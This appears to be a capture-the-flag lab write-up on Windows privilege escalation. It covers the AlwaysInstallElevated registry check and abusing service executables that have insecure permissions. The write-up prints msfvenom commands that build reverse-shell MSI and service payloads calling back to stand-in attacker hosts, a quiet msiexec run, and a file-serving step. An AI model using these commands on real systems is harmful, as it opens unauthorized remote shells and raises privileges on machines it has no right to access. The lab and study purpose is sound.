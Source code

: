 Windows Installation Files can be run as the user they're launched by or with higher privileges. If done with the latter, a user can elevate their privileges.

Set the registry keys
```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Create a payload msi file with msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

The payload can then be executed on the victims machine. 
```
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

#### Questions 

What is the taskusr1 flag?
```
THM{TASK_COMPLETED}
```

## Abusing Service Misconfigurations

#### Windows Services

Service Control Manager - Process in charge of managing windows services. 

Check a service's configuration. 
This command can be ran in the command prompt. 
```
sc qc <service_name>
```

Discretionary Access Control List (DACL) - states who has permissions to control the servic. 

#### Insecure Permissions on Service Executable

If you were to check another service that by chance has insecure permissions. 
Those being modify permissions by either the Everyone or Users group, you can elevate tour privileges to the the user who runs the service. 
More specifically you'll need to check the services executable file. 
```
icacls <path_to_executable>
```

You can create a malicious executable payload with msfvenom. 
Download that payload onto the target machine and replace the vulnerable file with the payload. 
Then configure the permissions of the new executable with permissions to be executed by anyone. 
```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
```
